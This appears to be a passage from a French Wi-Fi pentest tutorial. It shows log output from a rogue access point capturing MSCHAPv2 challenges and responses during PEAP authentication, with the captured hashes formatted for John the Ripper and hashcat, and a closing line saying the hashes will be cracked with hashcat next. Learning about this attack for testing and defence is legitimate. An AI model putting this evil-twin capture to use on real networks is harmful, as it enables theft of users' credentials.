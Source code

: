 ```
mschapv2: Wed May 31 12:12:57 2023
         username:      meh
         challenge:     c0:45:7a:75:4b:fb:11:9d
         response:      5b:f1:d7:11:05:94:45:e3:2b:fa:f9:13:06:34:e3:b9:e4:e7:bf:34:3b:ed:b9:9c
         jtr NETNTLM:           meh:$NETNTLM$c0457a754bfb119d$5bf1d711059445e32bfaf9130634e3b9e4e7bf343bedb99c
         hashcat NETNTLM:       meh::::5bf1d711059445e32bfaf9130634e3b9e4e7bf343bedb99c:c0457a754bfb119d
wlan0: STA 84:cf:bf:91:c3:89 IEEE 802.1X: Identity received from STA: 'meh'
wlan0: STA 84:cf:bf:91:c3:89 IEEE 802.1X: Identity received from STA: 'meh'
wlan0: CTRL-EVENT-EAP-FAILURE 84:cf:bf:91:c3:89
wlan0: STA 84:cf:bf:91:c3:89 IEEE 802.1X: authentication failed - EAP type: 0 (unknown)
wlan0: STA 84:cf:bf:91:c3:89 IEEE 802.1X: Supplicant used different EAP type: 25 (PEAP)
wlan0: STA 84:cf:bf:91:c3:89 IEEE 802.11: authenticated
wlan0: STA 84:cf:bf:91:c3:89 IEEE 802.11: associated (aid 1)
wlan0: CTRL-EVENT-EAP-STARTED 84:cf:bf:91:c3:89
wlan0: CTRL-EVENT-EAP-PROPOSED-METHOD vendor=0 method=1
wlan0: STA 84:cf:bf:91:c3:89 IEEE 802.1X: Identity received from STA: 'meh'
wlan0: CTRL-EVENT-EAP-PROPOSED-METHOD vendor=0 method=25
wlan0: STA 84:cf:bf:91:c3:89 IEEE 802.1X: Identity received from STA: 'meh'
wlan0: STA 84:cf:bf:91:c3:89 IEEE 802.1X: Identity received from STA: 'meh'
wlan0: STA 84:cf:bf:91:c3:89 IEEE 802.1X: Identity received from STA: 'meh'
wlan0: STA 84:cf:bf:91:c3:89 IEEE 802.1X: Identity received from STA: 'meh'
wlan0: STA 84:cf:bf:91:c3:89 IEEE 802.1X: Identity received from STA: 'meh'
wlan0: STA 84:cf:bf:91:c3:89 IEEE 802.1X: Identity received from STA: 'meh'


mschapv2: Wed May 31 12:13:02 2023
         username:      meh
         challenge:     fc:b0:03:7d:d1:21:c9:4f
         response:      ed:fd:09:80:18:e9:ab:a1:79:77:aa:91:43:4c:48:b5:1b:60:08:de:52:5f:95:77
         jtr NETNTLM:           meh:$NETNTLM$fcb0037dd121c94f$edfd098018e9aba17977aa91434c48b51b6008de525f9577
         hashcat NETNTLM:       meh::::edfd098018e9aba17977aa91434c48b51b6008de525f9577:fcb0037dd121c94f
wlan0: STA 84:cf:bf:91:c3:89 IEEE 802.1X: Identity received from STA: 'meh'
wlan0: STA 84:cf:bf:91:c3:89 IEEE 802.1X: Identity received from STA: 'meh'
wlan0: CTRL-EVENT-EAP-FAILURE 84:cf:bf:91:c3:89
wlan0: STA 84:cf:bf:91:c3:89 IEEE 802.1X: authentication failed - EAP type: 0 (unknown)
wlan0: STA 84:cf:bf:91:c3:89 IEEE 802.1X: Supplicant used different EAP type: 25 (PEAP)
wlan0: STA 84:cf:bf:91:c3:89 IEEE 802.11: deauthenticated due to local deauth request
^Cwlan0: interface state ENABLED->DISABLED
wlan0: AP-DISABLED                                                                                                
wlan0: CTRL-EVENT-TERMINATING                                                                                     
nl80211: deinit ifname=wlan0 disabled_11b_rates=0  
```

On peut constater que nous obtenons les hash du mot de passe. Nous crackerons
ces hash avec hashcat à l'étape suivante.
